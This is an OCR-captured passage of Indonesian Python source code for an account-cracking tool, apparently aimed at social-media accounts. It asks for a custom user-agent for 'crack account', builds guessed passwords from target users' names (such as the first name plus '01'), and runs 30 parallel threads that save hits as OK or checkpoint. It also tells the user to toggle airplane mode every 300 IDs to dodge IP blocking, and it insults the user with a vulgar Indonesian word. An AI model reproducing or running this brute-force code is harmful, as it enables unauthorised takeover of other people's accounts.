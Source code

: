                  pwkuh=pwku.split(',') 
                 for xpw in pwkuh: 
                         pwnya.append(xpw) 
         else: 
                 pwpluss.append('no') 
  
         cetak(panel(f'      [bold white]Apakah Anda Ingin Menampilkan Aplikasi Yang Terkait Di Dalam Akun ? Y/T',width=90,title=f"[bold green]Setting Cek Apk",style=f"bold white")) 
         _brayen_ = input(' [+] Pilih : ') 
         if _brayen_ in ['']: 
                 print(' [+] Pilih Yang Bener Kontol ') 
                 exit() 
         elif _brayen_ in ['y','Y']: 
                 taplikasi.append('ya') 
         else: 
                 taplikasi.append('no') 
  
         cetak(panel(f'      [bold white]Apakah Anda Ingin Menampilkan Opsi Checkpoint Di Dalam Akun ? Y/T',width=90,title=f"[bold green]Cek Opsi",style=f"bold white")) 
         _brayen_ = input(' [+] Pilih : ') 
         if _brayen_ in ['']: 
                 print(' [+] Pilih Yang Bener Kontol ') 
                 exit() 
         elif _brayen_ in ['y','Y']: 
                 gabriel.append('ya') 
         else: 
                 gabriel.append('no') 
  
         cetak(panel(f'[bold white]Apakah Anda Ingin Mengunakan User-Agent Manual Untuk Melakukan Crack Account ? Y/T',width=90,title=f"[bold green]Setting User-Agent",style=f"bold white")) 
         uatambah = input(f' [+] Pilih : ') 
         if uatambah in ['y','Ya','ya','Y']: 
                 ualuh.append('ya') 
                 bzer = input(f' [+] Masukan User-Agent : ') 
                 ualu.append(bzer) 
         else: 
                 ualuh.append('tidak') 
         passwrd() 
 #-------------------[ BAGIAN-WORDLIST ]------------# 
 def passwrd(): 
         global prog,des 
         print('') 
         urut = [] 
         urut.append(panel(f'        [bold green]%s [bold white]'%(okc),width=43,title=f"[bold green]OK SAVE IN",style=f"bold white")) 
         urut.append(panel(f'         [bold yellow]%s [bold white]'%(cpc),width=44,title=f"[bold yellow]CP SAVE IN",style=f"bold white")) 
         wa.print(Columns(urut)) 
         cetak(panel(f'\t[bold white]On/Off Mode Pesawat Setiap 300 Idz Agar Terhindar Dari Spam Ip',width=90,title=f"[bold green]Informasi",subtitle=f"[bold green]Proses Crack",style=f"bold white")) 
         prog = Progress(SpinnerColumn('clock'),TextColumn('{task.description}'),BarColumn(),TextColumn('{task.percentage:.0f}%')) 
         des = prog.add_task('',total=len(id2)) 
         with prog: 
                 with tred(max_workers=30) as pool: 
                         for yuzong in id2: 
                                 idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower() 
                                 frs = nmf.split(" ")[0] 
                                 pwv = [] 
                                 if len(nmf)<6: 
                                         if len(frs)<3: 
                                                 pass 
                                         else: 
                                                 pwv.append(nmf) 
                                                 pwv.append(frs+'01') 